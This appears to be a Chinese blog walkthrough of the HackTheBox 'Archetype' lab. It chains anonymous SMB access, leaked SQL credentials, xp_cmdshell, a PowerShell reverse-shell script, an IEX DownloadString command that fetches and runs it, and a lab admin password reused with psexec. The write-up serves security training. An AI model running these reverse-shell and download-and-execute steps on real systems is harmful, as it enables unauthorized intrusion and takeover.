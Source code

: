 ```yaml
---
title: HTB-Archetype靶机思路 
tags: HTB,靶机,思路
renderNumberedHeading: true
grammar_cjkRuby: true
---
```



## 前言

>这个是之前打过的靶机，之前也记录了一下，现在把它放在博客里，方便自己查看
>其实按照他里面的步骤一步一步来就可以了，但是中间踩了好多坑，心累，所以记录一下

## 环境准备

>操作机：Kali Linux

>首先要在 Kali 上安装 openvpn
>```
>apt-get install network-manager-openvpn
>apt-get install network-manager-openvpn-gnome
>apt-get install network-manager-pptp
>apt-get install network-manager-pptp-gnome
>apt-get install network-manager-strongswan
>apt-get install network-manager-vpnc
>apt-get install network-manager-vpnc-gnome
>```

安装openvpn之后，我们来下载.ovpn文件

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600845167236.png)

使用opnvpn来访问这个文件，连上环境IP

`sudo openvpn MrHat-startingpoint.ovpn`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600845353335.png)

然后试着 ping 一下目标IP `10.10.10.27`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600846212044.png)

## 信息收集

环境配置好之后，目标IP也知道了，进行简单的信息收集

首先端口扫描，看看是否开放可疑端口
`sudo nmap -sC -sV 10.10.10.27`

> -sC 根据端口识别的服务,调用默认脚本
> 
> -sV 开放版本探测,可以直接使用-A同时打开操作系统探测和版本探测 

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600846553562.png)

开放端口：
- 135  msrpc        Microsoft Windows RPC 
- 139  netbios-ssn  Microsoft Windows netbios-ssn 
- 445  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds 
- 1433 ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM

## 漏洞利用

>445 文件共享（SMB）
>
>1433  SQL Server相关联

先看一下445端口的SMB是否允许匿名访问
`smbclient -N -L \\\\10.10.10.27\\`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847031208.png)

`backups` 目录 一般来说是备份目录
连接一下 `backups` 目录，然后 `dir` 查看一下目录下的文件

`smbclient -N -L \\\\10.10.10.27\\backups`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847147868.png)

可以看到里面有一个 `prod.dtsConfig` 文件，我们下载一下

`get prod.dtsConfig`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847259590.png)

查看一下里面的内容

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847308001.png)

它包含一个 `SQL 连接字符串` 和本地 Windows 用户 `ARCHETYPE\sql_svc`

接下来我们使用 `Impacket` 下的 `mssqlclient.py` 来连接一下这个 Sql Server

>Github下载链接：https://github.com/SecureAuthCorp/impacket

下载完成，解压出来，然后安装依赖 执行 `pip install .`  注意有个点

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847431335.png)

然后找到 examples 目录下的 `mssqlclient.py`

执行命令
`python mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847571370.png)

**`注意这个斜杠 文档复制出来的是 “\” 这个，但是不行 必须要 “/”这个斜杠才可以`**

成功连接 Sql Server，然后执行 sql 语句

先使用 `IS_SRVROLEMEMBER` 函数来查看当前 SQL 用户的权限是否为 sysadmin 最高权限

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600847804543.png)

返回1那就说明是 sysadmin 权限

接下来我们开启 `xp_cmdshell` 来执行系统命令
```sql?linenums
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
```
开启成功

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848048509.png)

接下来执行一下系统命令 查看一下权限
`xp_cmdshell "whoami"`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848113617.png)

## 权限提升

利用 powershell 反弹shell

新建一个 `shell.ps1` 文件
```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
注意修改一下 `ip`，`端口`

接下来我们使用 python3 来托管文件

`sudo python3 -m http.server 80`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848857109.png)

使用 `nc` 来监听刚刚设置的端口，我设置的是 443

`sudo nc -lvnp 443`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600848941236.png)

然后执行系统命令来访问下载并执行文件

`xp_cmdshell "powershell "IEX (New-ObjectNet.WebClient).DownloadString(\"http://10.10.14.29/shell.ps1\");"`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849065273.png)

看 nc 这边的反应

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849164777.png)

反弹成功！

查看一下文件

`type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849401803.png)

>文件内容:
>net.exe use T: rchetypeVbackups /user:administrator MEGACORP_4dmin!!

发现是 `administrator` 账户密码

我们通过 `Impacket/examples/psexec.py` 连接一下这个 administrator 账户

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849493455.png)

## 获取Flag

Flag 在桌面

![](https://raw.githubusercontent.com/MrHatSec/MrHatSec.github.io/assets/MrHat/1600849547580.png)







